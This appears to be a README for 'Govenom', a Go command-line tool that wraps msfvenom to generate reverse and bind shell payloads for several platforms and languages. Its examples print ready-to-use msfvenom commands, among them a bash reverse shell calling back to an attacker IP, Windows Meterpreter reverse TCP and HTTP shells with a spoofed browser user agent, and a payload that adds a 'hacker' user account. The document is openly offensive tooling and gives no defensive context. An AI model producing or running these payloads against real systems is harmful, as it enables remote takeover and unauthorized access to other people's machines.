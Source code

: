 # Govenom
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com) 

Generate MSFVenom shells in command line :)

## To-do List
[x] v0.1 Generate MSFVenom shells in command line.
[] v0.2 Support Bind Shell and Reverse Shell.
[] v0.3 Supported Command execution and generate a Litener.
[] v0.4 Provide WebUI or GUI.

## Usage
This panel appears when typing `./Govenom -h` :
```
USAGE:
   Govenom [global options] command [command options] [arguments...]

COMMANDS:
   linux    Generate Linux Meterpreter reverse/bind shell x86 multi stage :)
   windows  Generate Windows Meterpreter muti shells :)
   macos    Generate MacOS Meterpreter reverse/bind shells :)
   bash     Generate a Bash reverse shell
   python   Generate a Python reverse shell
   perl     Generate a Perl reverse shell
   asp      Generate a ASP Meterpreter shell
   jsp      Generate a Jsp reverse shell
   war      Generate a War reverse shell
   php      Generate a PHP reverse shells
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --help, -h  show help
```

## Examples
It is possible to provide the attacker IP address and listening port with the flags `-lhost` and `-port`.
```
# ./Govenom bash -lhost 1.2.3.4 -port 4444                                                                                                                                                          
Govenom - (c)2021 - arch3rPro 
Note that you need to generate a listener by msfconsole on your attack Host !

msfvenom -p cmd/unix/reverse_bash LHOST=1.2.3.4 LPORT=4444 -f raw > shell.sh 
```
```
# ./Govenom  windows
Govenom - (c)2021 - arch3rPro 
Note that you need to generate a listener by msfconsole on your attack Host !

 #1   Windows Meterpreter reverse shell: msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe > shell.exe 
 #2   Windows Meterpreter http reverse shell: msfvenom -p windows/meterpreter_reverse_http LHOST=127.0.0.1 LPORT=4444 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe 
 #3   Windows Meterpreter bind shell: msfvenom -p windows/meterpreter/bind_tcp RHOST= 192.168.1.1 LPORT=4444 -f exe > shell.exe 
 #4   Windows CMD Multi Stage: msfvenom -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe > shell.exe 
 #5   Windows add user: msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

## Thanks
* [goshell](https://github.com/eze-kiel/goshell) - Generate reverse shells in command line with Go ! 

